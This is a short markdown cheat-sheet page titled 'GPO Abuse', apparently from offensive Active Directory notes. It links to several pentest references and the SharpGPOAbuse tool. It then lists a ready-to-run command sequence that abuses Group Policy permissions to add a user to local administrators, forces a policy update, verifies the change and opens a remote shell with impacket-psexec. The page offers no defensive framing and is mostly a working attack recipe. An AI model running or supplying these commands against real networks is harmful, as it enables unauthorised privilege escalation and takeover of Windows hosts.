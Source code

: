 # GPO Abuse

{% embed url="https://www.thehacker.recipes/ad/movement/group-policies" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#abuse-gpo-new-gpoimmediatetask" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#abusing-the-gpo-permissions" %}

{% embed url="https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master" %}

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount theUser --GPOName "Name of the Policy"
 gpupdate /force
 
 # check to make sure you've been added
 net localgroup administrators
 
 impacket-psexec theUser@IP
```

